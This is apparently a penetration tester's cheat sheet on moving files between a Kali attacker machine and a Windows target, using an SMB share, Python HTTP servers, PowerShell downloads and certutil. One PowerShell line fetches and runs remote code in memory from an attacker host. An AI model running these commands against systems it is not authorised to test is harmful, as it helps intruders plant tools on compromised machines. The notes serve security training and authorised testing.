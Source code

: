 # File transfer

## SMB - from Windows to Kali or vice-versa

On Kali start a SMB share server on the folder you want to be shared
```
cd <path>
impacket-smbserver share $(pwd) -smb2support
```

On the target
```
net use \\<Kali IP>\share
net use
copy \\<Kali IP>\share\<file> .
dir
```

## HTTP - from Kali to target

```
cd <path>
sudo python -m SimpleHTTPServer 80
```
or
```
cd <path>
sudo python3 -m http.server 80
```

### download to Windows

PowerShell
```
Invoke-WebRequest -Uri 'http://<Kali IP>/<filename>' -OutFile <filename> 
```

PowerShell from cmd
```
powershell.exe -command Invoke-WebRequest -Uri http://<Kali IP>/<filename> -OutFile <filename>
```

```
powershell.exe IEX(New-Object Net.WebClient).downloadstring(http://<Kali IP>/<filename>)
```


Certutil
```
certutil -urlcache -split -f 'http://<Kali IP>/<filename>' <path_destiny><filename>
```



## Links
- [file transfer cheatsheet Windows and Linux](https://www.hackingarticles.in/file-transfer-cheatsheet-windows-and-linux/)
- https://infinitelogins.com/2020/09/04/windows-file-transfer-cheatsheet/
- https://blog.certcube.com/file-transfer-cheatsheet-for-pentesters/
- https://fir3wa1-k3r.github.io/2018/10/17/File-Transfer-cheatsheet.html